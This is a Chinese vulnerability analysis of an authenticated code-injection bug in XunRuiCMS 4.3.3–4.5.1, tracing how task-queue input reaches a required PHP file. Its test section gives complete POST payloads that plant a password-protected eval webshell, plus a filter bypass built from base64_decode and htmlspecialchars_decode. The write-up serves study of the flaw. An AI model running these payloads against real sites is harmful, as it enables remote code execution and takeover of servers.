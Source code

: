 # 迅睿CMS 漏洞整理

- [迅睿CMS 漏洞整理](#迅睿cms-漏洞整理)
  - [V4.3.3-V4.5.1 后台任意注入漏洞](#v433-v451-后台任意注入漏洞)
    - [漏洞要求](#漏洞要求)
    - [漏洞分析](#漏洞分析)
  - [漏洞测试](#漏洞测试)
  - [小结](#小结)
  - [相关链接](#相关链接)

## V4.3.3-V4.5.1 后台任意注入漏洞

为了避免后续复现漏洞时没有源代码，故将20220707当天的master 代码克隆到当前目录下
本文章使用的是 `version 4.3.10 栏目数量最多限制为100个` 即 commit 为 `89b9497bf7fd89e468f7858b457a3e6e499bc44a` 的代码进行的漏洞复现和分析。

### 漏洞要求

- 版本为v4.3.3-v4.5.1
- 可以登陆后台并具有"应用"->"任务队列"的管理权限，`/admin.php?c=Cron&m=add`

### 漏洞分析

访问`admin.php?c=Cron&m=add`, 不用填写，点击保存，看网站目录下 `cache/config/cron.php` 内容如下：

```php
<?php defined('FCPATH') OR exit('No direct script access allowed');
 $json='{"1":{"name":"","code":""},"2":{"name":"","code":""},"3":{"name":"","code":""},"4":{"name":"","code":""},"5":{"name":"","code":""},"6":{"name":"","code":""},"7":{"name":"","code":""},"8":{"name":"","code":""},"9":{"name":"","code":""},"10":{"name":"","code":""},"11":{"name":"","code":""},"12":{"name":"","code":""},"13":{"name":"","code":""},"14":{"name":"","code":""},"15":{"name":"","code":""},"16":{"name":"","code":""},"17":{"name":"","code":""},"18":{"name":"","code":""},"19":{"name":"","code":""},"20":{"name":"","code":""}}';
```

从这里可以分析出，如果这个地方对于用户输入的内容过滤不严格，就非常容易存在漏洞

我们来分析一下 `cron.php` 中的`add` 方法：

```php
    // 任务类型
    public function add() {

        $json = '';
        if (is_file(WRITEPATH.'config/cron.php')) {
            require WRITEPATH.'config/cron.php';
        }

        $data = json_decode($json, true);

        if (IS_AJAX_POST) {

            $post = \Phpcmf\Service::L('input')->post('data', true);

            file_put_contents(WRITEPATH.'config/cron.php',
                '<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');

            \Phpcmf\Service::L('input')->system_log('设置自定义任务类型');

            $this->_json(1, dr_lang('操作成功'));
        }

        \Phpcmf\Service::V()->assign([
            'data' => $data,
        ]);
        \Phpcmf\Service::V()->display('cron_add.html');
    }
```

从源码中可以看到有一个非常容易存在问题的地方

```php
if (is_file(WRITEPATH.'config/cron.php')) {
    require WRITEPATH.'config/cron.php';
}
```

如上面最开始所说的，如果对于用户输入的内容过滤不严格，导致可以写入任意内容，这段代码又通过 `require WRITEPATH.'config/cron.php';` 加载执行，那么就可以造成非常严重的漏洞

继续分析代码

```php
if (IS_AJAX_POST) {

    $post = \Phpcmf\Service::L('input')->post('data', true);

    file_put_contents(WRITEPATH.'config/cron.php',
        '<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');

    \Phpcmf\Service::L('input')->system_log('设置自定义任务类型');

    $this->_json(1, dr_lang('操作成功'));
}
```

在上面这段代码中`file_put_contents` 函数会进行文件写入，不过问题也出在了这个地方，代码中的`$json=\''.json_encode($post).'\';');` `$json` 的值 是字符串的拼接，在内容的前后拼接了一个`'`，如果我们控制了这个值并且闭合前后的`'`,加入我们想要执行的代码，那么就造成了非常严重的漏洞。所以接下来我们需要顺着这个`json_encode($post)`往上找，看看看对于这个值是否可以进行控制。

分析`cron.php` 中的`add` 中 `post` 请求时数据的处理流程：

- `dayrui/Core/Controllers/Admin/Cron.php` 文件中 add 方法中调用 `$post = \Phpcmf\Service::L('input')->post('data', true);`
- 经过 `dayrui/Fcms/Library/Input.php` 文件中 `post` 方法又调用 `xss_clean`方法，并最终调用 `dayrui/Fcms/Library/Security.php` 中的 `xss_clean` 方法对`post`请求中的数据进行`xss`清理
- `dayrui/Core/Controllers/Admin/Cron.php` 文件中 add 方法中执行 `file_put_contents(WRITEPATH.'config/cron.php','<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');` 将 post 数据 `json_encode` 并写入 `config/cron.php` 文件

## 漏洞测试

我们尝试直接在`admin.php?c=Cron&m=add` 的post请求中直接加入如下数据

```url
data[1][name]=&data[1][code]=[';file_put_contents('webshell.php','<?php eval(@$_POST["password"]);?>);return;']
// 完整的post 数据
is_form=1&is_admin=1&is_tips=&csrf_test_name=06b5fd7088e5c1036c2f522d34b19c47&data%5B1%5D%5Bname%5D=&data%5B1%5D%5Bcode%5D=%5B'%3bfile_put_contents('webshell.php','<%3fphp+eval(%40$_POST["password"])%3b%3f>)%3breturn%3b'%5D
```

这个是构造的data 数据，可以通过如下方式调试一下代码，方便看我们的调试结果：

```php
if (IS_AJAX_POST) {

    $post = \Phpcmf\Service::L('input')->post('data', true);
    // -----添加的调试代码-----
    var_dump(json_encode($post));
    exit();
    // -----添加的调试代码-----
    file_put_contents(WRITEPATH.'config/cron.php',
        '<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');

    \Phpcmf\Service::L('input')->system_log('设置自定义任务类型');

    $this->_json(1, dr_lang('操作成功'));
}
```

测试我们上面的请求，可以看到如下结果：

```php
string(125) "{"1":{"name":"","code":"[';file_put_contents('webshell.php','&lt;?php eval&#40;@$_POST[\"password\"]&#41;;?&gt;);return;']"}}"
```

可以看到输入的内容被进行了编码:

- `<`被编码为 `&lt;`
- `>`被编码为 `&gt;`
- eval的`(`被编码为 `&#40;`
- eval的`)`被编码为 `&#41;`
- `"` 被进行了转义`\"`

接下来我们需要想办法绕过上面的转换

- 关于`>`和 `<` 的编码可以看出来是被进行的html编码，这个可以通过使用`htmlspecialchars_decode`来解决
- 关于`(`,`)`被编码以及`"`被转义可以通过 `base64_decode` 编码的方式进行绕过

这样将我们构造的post 的数据进行调整为：

```url
data[1][name]=&data[1][code]=[';file_put_contents('webshell.php',htmlspecialchars_decode('<').'?php%20eval'.base64_decode('KA==').'@$_POST%5B'.base64_decode('Ig==').'password'.base64_decode('Ig==').'%5D'.base64_decode('KQ==').';?'.htmlspecialchars_decode('>'));return;']
// 完整请求参数
is_form=1&is_admin=1&is_tips=&csrf_test_name=398242eb0f467c80b539d08baf47eb29&data%5B1%5D%5Bname%5D=&data%5B1%5D%5Bcode%5D=%5B'%3bfile_put_contents('webshell.php',htmlspecialchars_decode('<').'%3fphp%2520eval'.base64_decode('KA%3d%3d').'%40$_POST%255B'.base64_decode('Ig%3d%3d').'password'.base64_decode('Ig%3d%3d').'%255D'.base64_decode('KQ%3d%3d').'%3b%3f'.htmlspecialchars_decode('>'))%3breturn%3b'%5D
```

调试的结果为：

```php
string(265) "{"1":{"name":"","code":"[';file_put_contents('webshell.php',htmlspecialchars_decode('&lt;').'?php eval'.base64_decode('KA==').'@$_POST['.base64_decode('Ig==').'password'.base64_decode('Ig==').']'.base64_decode('KQ==').';?'.htmlspecialchars_decode('>'));return;']"}}"
```

我们上面添加的调试代码去掉，然后看看最终写入到`cache/config/cron.php` 内容如下：

```php
<?php defined('FCPATH') OR exit('No direct script access allowed');
 $json='{"1":{"name":"","code":"[';file_put_contents('webshell.php',htmlspecialchars_decode('&lt;').'?php eval'.base64_decode('KA==').'@$_POST['.base64_decode('Ig==').'password'.base64_decode('Ig==').']'.base64_decode('KQ==').';?'.htmlspecialchars_decode('>'));return;']"}}';
```

然后访问 `/admin.php?c=Cron&m=add` 这个时候就会在网站根目录下看到写入了一个webshell.php 文件，内容为：`<?php eval(@$_POST["password"]);?>`

需要注意的是我们构造的数据前后都有 `';` 这个就是为了闭合下面代码中的 `json_encode($post)` 前后的拼接的`'`

```php
 file_put_contents(WRITEPATH.'config/cron.php',
        '<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');
```

## 小结

作为一个在学习完漏洞原理之后，把这个作为入门分析代码的例子还是非常不错的，过程也还比较有意思

## 相关链接

- <https://xz.aliyun.com/t/11457>
- <https://gitee.com/dayrui/xunruicms>
